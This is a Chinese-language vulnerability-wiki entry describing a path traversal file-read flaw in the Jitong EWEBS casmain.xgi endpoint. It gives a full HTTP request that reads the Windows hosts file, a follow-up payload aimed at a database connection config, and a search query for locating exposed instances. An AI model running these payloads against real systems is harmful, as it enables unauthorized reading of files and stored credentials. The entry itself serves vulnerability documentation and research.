


# 新软科技极通EWEBS casmain Language_S路径遍历读取

## 条目说明

- 对象与具体问题：新软科技极通EWEBS；casmain Language_S路径遍历读取
- 版本、配置及部署条件：Windows示例，产品构建未知
- 认证与权限前提：有PHPSESSID，匿名待核
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- testweb.php辅助配置信息未提供，不能当完整链
- 缺文字返回、修复和鉴权对照；固定Cookie不可通用

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

### 漏洞影响

```
极通EWEBS
```

### 网络测绘

```
app="新软科技-极通EWEBS"
```

### 漏洞复现

登录页面如下





漏洞请求包为


```http
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN

Language_S=../../../../windows/system32/drivers/etc/hosts
```

> 请求长度说明：原资料 Content-Length 为 57；静态长度已移除，应由客户端根据最终请求体的字节数生成。





可以配合 testweb.php 信息泄露读取敏感信息


```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
